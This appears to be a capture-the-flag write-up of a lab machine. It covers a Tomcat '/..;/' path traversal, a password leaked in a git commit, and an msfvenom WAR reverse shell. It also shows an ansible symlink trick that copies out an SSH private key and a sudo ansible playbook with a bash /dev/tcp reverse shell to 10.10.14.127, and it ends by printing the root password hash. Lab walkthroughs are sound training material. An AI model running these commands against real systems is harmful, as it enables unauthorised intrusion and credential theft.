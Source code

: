 # Main points
* nginx and tomcat path traversal `/..;/` [#^57d812|tomcat apache 9.0.31](/assets/%23%5E57d812%7Ctomcat%20apache%209.0.31)
* `copy_link` of ansible can copy the target folder/file [#^0349ed|symlink whole folder](/assets/%23%5E0349ed%7Csymlink%20whole%20folder)
# Writeup
We start with basic nmap enumeration

- 22/tcp    open     ssh        syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
- 443/tcp   open     ssl/http   syn-ack     nginx 1.18.0 (Ubuntu)
- 8080/tcp  open     http-proxy syn-ack

let's check the website

We see that port 8080 lands us on a Gitbucket login page and port 443 on a page with products and vegetable.

Let's create a new account in the Gitbucket page

We login with our account
![Pasted image 20210719010656.png](/assets/Pasted%20image%2020210719010656.png)

We see there is a root with 2 repo
![Pasted image 20210719163954.png](/assets/Pasted%20image%2020210719163954.png)

In the `seal_market` repository, we see there is an issue
![Pasted image 20210719164052.png](/assets/Pasted%20image%2020210719164052.png)
So there are 2 potential users `alex` and `luis`.
Let's check their commits in case there are some creds.

We find tomcat user
![Pasted image 20210719164536.png](/assets/Pasted%20image%2020210719164536.png)
`<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>`

Let's try to connect with those creds
![Pasted image 20210719164929.png](/assets/Pasted%20image%2020210719164929.png)

We have an error, maybe it's the password of alex or luis.

It worked with luis, but we can't do much now.

Let's check the port 443, where there is a seal market. We try to do some directory bruteforcing with gobuster.
![Pasted image 20210719170001.png](/assets/Pasted%20image%2020210719170001.png)
I checked them but apart from `index.html` they redirect to forbidden 403 error.

Except for the `/manager` that redirects to `/manager/html` which gives Forbidden 403. If i try to check `/manager/dashboard` for example, we get an error with a list of possible paths
![Pasted image 20210719170154.png](/assets/Pasted%20image%2020210719170154.png)

We try `/manager/text` and we get a prompt
![Pasted image 20210719170228.png](/assets/Pasted%20image%2020210719170228.png)

let's try the creds of tomcat 
It gives us access denied, we keep trying the other paths, and it works with /status

![Pasted image 20210719170422.png](/assets/Pasted%20image%2020210719170422.png)

We see the apache tomcat version is `Apache Tomcat/9.0.31 (Ubuntu)`

Let's see if there is a vulnerability for it.
We find this vulnerability that allows path traversal
https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/
> Tomcat will treat the sequence **/..;/** as **/../** and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.

^57d812

So we try to access `/manager/status/..;/html`

We have access to dashboard
![Pasted image 20210719211910.png](/assets/Pasted%20image%2020210719211910.png)

We see that we can upload a WAR file
![Pasted image 20210719211929.png](/assets/Pasted%20image%2020210719211929.png)

Let's create a WAR reverse shell with msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.127 LPORT=4444 -f war > reverse.war
```
![Pasted image 20210719212250.png](/assets/Pasted%20image%2020210719212250.png)

We start our netcat listener and we upload our WAR file

![Pasted image 20210719212336.png](/assets/Pasted%20image%2020210719212336.png)

Since we can't upload it directly because it redirects to /html which is forbidden, we use Burp to catch the request and change the path to `/manager/status/..;/html`
![Pasted image 20210719212719.png](/assets/Pasted%20image%2020210719212719.png)

Our file was uploaded and deployed
![Pasted image 20210719212753.png](/assets/Pasted%20image%2020210719212753.png)
![Pasted image 20210719212917.png](/assets/Pasted%20image%2020210719212917.png)
Now all we need is to access this URL
![Pasted image 20210719212953.png](/assets/Pasted%20image%2020210719212953.png)
And we have a shell
![Pasted image 20210719213013.png](/assets/Pasted%20image%2020210719213013.png)
We cat `/etc/passwd`
![Pasted image 20210719213137.png](/assets/Pasted%20image%2020210719213137.png)

There is user luis

Let's see if there are processes related to luis
`ps -aux | grep luis`
![Pasted image 20210719214919.png](/assets/Pasted%20image%2020210719214919.png)
There is a `gitbucket.war` running and there is a ansible-playbook running every 30 seconds
`sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml`
Let's see the content
![Pasted image 20210719220620.png](/assets/Pasted%20image%2020210719220620.png)
```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```
The task "Copy Files" copies files from the `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` into `/opt/backups/files`

I dont know what `copy_links` refers to so let's check the documentation

![Pasted image 20210719221005.png](/assets/Pasted%20image%2020210719221005.png)

So if I understand that correctly, if we have a file in the src directory that has a symlinks to a file in /tmp/script, it will copy the /tmp/script to the backup folder ^0349ed

We also have read access to the backup folder
![Pasted image 20210719221417.png](/assets/Pasted%20image%2020210719221417.png)
And write access in the `/uploads/` folder in the src directory
![Pasted image 20210719221507.png](/assets/Pasted%20image%2020210719221507.png)
let's create a file with a symlink to the private key ssh of luis id_rsa in .ssh folder of luis
![Pasted image 20210719222134.png](/assets/Pasted%20image%2020210719222134.png)
`ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/`

We go to `/opt/backups/archives`, wait a little, and we see the recet backup created. let's download it by setting up a python server 
![Pasted image 20210719222418.png](/assets/Pasted%20image%2020210719222418.png)

![Pasted image 20210719222636.png](/assets/Pasted%20image%2020210719222636.png)
We download the archive
![Pasted image 20210719222709.png](/assets/Pasted%20image%2020210719222709.png)
and extract it with `gzip`

`gzip -d backup-2021-07-19-20:36:32.gz`
We have a tar archive, let's extract it
`tar xvf backup`
![Pasted image 20210719224538.png](/assets/Pasted%20image%2020210719224538.png)

We have our id_rsa file, we can get user by connecting with

`ssh luis@10.10.10.250 -i id_rsa`

We have user now and user flag

# Priv Esc
We run `sudo -l` to see if we can run something as root
we see we can run ansible as root

![Pasted image 20210719224923.png](/assets/Pasted%20image%2020210719224923.png)

So the idea is to create a malicious `yml` file and run it with ansible, this is easier than getting the user xD
`play.yml`
```yml
- hosts: localhost
  tasks:
  - name: Give root
    command: "/bin/bash ./script.sh"
```

`script.sh`
```bash
/bin/bash -i >& /dev/tcp/10.10.14.127/4444 0>&1
```
We setup our netcat listener and we run the command `sudo ansible-playbook play.yml`

![Pasted image 20210719230828.png](/assets/Pasted%20image%2020210719230828.png)

And we have root, and we get the flag
# root hash
`$6$D8b4qJlaLsRsvwuy$qvUFLUdvoH0EsvrLSJCpejOmV7bZoCO2ZGH2ueU77uAHpxepSfK.ts4LkkfwzuJ.IJ87EeK9RrNKHEorKQp3r`